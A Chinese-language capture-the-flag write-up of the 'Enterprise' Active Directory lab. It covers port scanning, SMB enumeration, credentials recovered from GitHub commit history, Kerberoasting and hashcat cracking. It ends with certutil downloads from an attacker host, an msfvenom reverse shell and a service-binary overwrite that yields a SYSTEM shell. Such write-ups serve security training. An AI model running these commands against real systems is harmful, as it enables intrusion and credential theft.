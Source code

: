 # Enterprise

难度：难

- Active directory
- Kerberos
- Real world

您刚刚进入内部网络。您扫描网络，只有域控制器...

---

## 端口扫描

循例 nmap扫：nmap -sS -sV 10.10.61.164 -p 1-10000 -T5：

    53/tcp   open  domain        Simple DNS Plus
    80/tcp   open  http          Microsoft IIS httpd 10.0
    88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2023-01-07 02:54:00Z)
    135/tcp  open  msrpc         Microsoft Windows RPC
    139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
    389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: ENTERPRISE.THM0., Site: Default-First-Site-Name)
    445/tcp  open  microsoft-ds?
    464/tcp  open  kpasswd5?
    593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
    636/tcp  open  tcpwrapped
    3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: ENTERPRISE.THM0., Site: Default-First-Site-Name)
    3269/tcp open  tcpwrapped
    3389/tcp open  ms-wbt-server Microsoft Terminal Services
    5357/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
    5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
    7990/tcp open  http          Microsoft IIS httpd 10.0
    9389/tcp open  mc-nmf        .NET Message Framing
    Service Info: Host: LAB-DC; OS: Windows; CPE: cpe:/o:microsoft:windows

从扫描结果我们不难看出，域名：

    ENTERPRISE.THM

remmina连接3389，查看证书信息，我们得到：

    LAB-DC.LAB.ENTERPRISE.THM

80、5357都是web，都没有任何信息，7990是一个登录页面

## SMB枚举

    smbclient -L 10.10.61.164

有这么些文件夹：

    ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	Docs            Disk      
	IPC$            IPC       Remote IPC
	NETLOGON        Disk      Logon server share 
	SYSVOL          Disk      Logon server share 
	Users           Disk      Users Share. Do Not Touch!

Docs目录：

    smbclient //10.10.61.164/Docs                                     127 ⨯ 1 ⚙
    Password for [WORKGROUP\root]:
    Try "help" to get a list of possible commands.
    smb: \> ls
    .                                   D        0  Mon Mar 15 10:47:35 2021
    ..                                  D        0  Mon Mar 15 10:47:35 2021
    RSA-Secured-Credentials.xlsx        A    15360  Mon Mar 15 10:46:54 2021
    RSA-Secured-Document-PII.docx       A    18432  Mon Mar 15 10:45:24 2021

我们发现了powershell的history

    smb: \LAB-ADMIN\AppData\Roaming\Microsoft\Windows\Powershell\PSReadline\> ls

    .                                   D        0  Fri Mar 12 12:00:39 2021
    ..                                  D        0  Fri Mar 12 12:00:39 2021
    Consolehost_hisory.txt              A      424  Fri Mar 12 11:51:46 2021

里面披露了一组凭据：

    echo "replication:101RepAdmin123!!">private.txt

经过尝试，这组凭据似乎并不有效

## OSINT

回头来看那个登录页面：

    提醒所有Enterprise-THM员工：
    我们要搬去Github了! 

根据这段话，我们去github搜索：Enterprise-THM

没有找到什么存储库，但是有一个user引起我们的注意：

    Enterprise.THM

该用户的头像跟我们的题目一样，看来没错了

该用户有一个存储库，但是没啥东西。

但是它的People下有一个用户，并且该用户也有一个存储库

    https://github.com/Nik-enterprise-dev/mgmtScript.ps1

这里披露了凭据，但是是空的，我们通过查看github history就可以找到历史提交中存在一组凭据：

    $userName = 'nik'
    $userPassword = 'ToastyBoi!'

利用该账户能够进入smb共享文件夹，但是没啥有用的东西

## Kerberoasting

现在这组凭据确认是有效的，我们现在有资格尝试Kerberoasting攻击：

    python3 /usr/share/doc/python3-impacket/examples/GetUserSPNs.py -dc-ip 10.10.61.164 LAB.ENTERPRISE.THM/nik:ToastyBoi! -request

成功获得bitbucket账户的密码hash:

    ServicePrincipalName  Name       MemberOf                                                     PasswordLastSet             LastLogon                   Delegation 
    --------------------  ---------  -----------------------------------------------------------  --------------------------  --------------------------  ----------
    HTTP/LAB-DC           bitbucket  CN=sensitive-account,CN=Builtin,DC=LAB,DC=ENTERPRISE,DC=THM  2021-03-12 09:20:01.333272  2021-04-26 23:16:41.570158

## hashcat 爆破

将得到的密码hash保存到文件，并使用hashcat进行爆破:

    hashcat -a 0 -m 13100 ./hash /usr/share/wordlists/rockyou.txt

成功获得明文密码：

    littleredbucket

## 上帝封死了门和窗，但上帝也在房间内！

我们尝试使用该账户枚举smb、winrm/psexec登录，都不行，但是rdp却成功了

user.txt在桌面下

现在我们传入WinPEAS.exe和accesschk.exe

    certutil -urlcache -split -f http://10.14.39.48:8000/winPEASx64.exe
    certutil -urlcache -split -f http://10.14.39.48:8000/accesschk64.exe

运行winPEAS，通过winPEAS得知：

    zerotieroneservice - binary path未引号包裹且路径有空格

该服务以system权限运行

    C:\Users\bitbucket>sc qc zerotieroneservice
    [SC] QueryServiceConfig SUCCESS

    SERVICE_NAME: zerotieroneservice
            TYPE               : 10  WIN32_OWN_PROCESS
            START_TYPE         : 2   AUTO_START
            ERROR_CONTROL      : 1   NORMAL
            BINARY_PATH_NAME   : C:\Program Files (x86)\Zero Tier\Zero Tier One\ZeroTier One.exe
            LOAD_ORDER_GROUP   :
            TAG                : 0
            DISPLAY_NAME       : zerotieroneservice
            DEPENDENCIES       :
            SERVICE_START_NAME : LocalSystem

使用accesschk检索：

    PS C:\Users\bitbucket> .\accesschk64.exe -w "C:\Program Files (x86)\Zero Tier\Zero Tier One\ZeroTier One.exe"

    C:\Program Files (x86)\Zero Tier\Zero Tier One\ZeroTier One.exe
    RW BUILTIN\Users
    RW NT AUTHORITY\SYSTEM
    RW BUILTIN\Administrators

我们对该exe文件可读写

    C:\Users\bitbucket>accesschk64 -cv zerotieroneservice

    Accesschk v6.15 - Reports effective permissions for securable objects
    Copyright (C) 2006-2022 Mark Russinovich
    Sysinternals - www.sysinternals.com

    zerotieroneservice
    Medium Mandatory Level (Default) [No-Write-Up]
    R  LAB-ENTERPRISE\bitbucket
            SERVICE_PAUSE_CONTINUE
            SERVICE_START
            SERVICE_STOP
            READ_CONTROL

我们可以控制该服务启动或停止

msfvenom生成reverse shell并上传到目标

    msfvenom -p windows/x64/shell_reverse_tcp lhost=10.14.39.48 lport=8888 -f exe-service > she11.exe

使用certutil将文件上传，然后copy到目标目录并覆盖目标exe:

    copy .\she11.exe "C:\Program Files (x86)\Zero Tier\Zero Tier One\ZeroTier One.exe"

在cmd运行：

    sc stop zerotieroneservice
    sc start zerotieroneservice

成功getshell

root.txt在administrator的桌面下
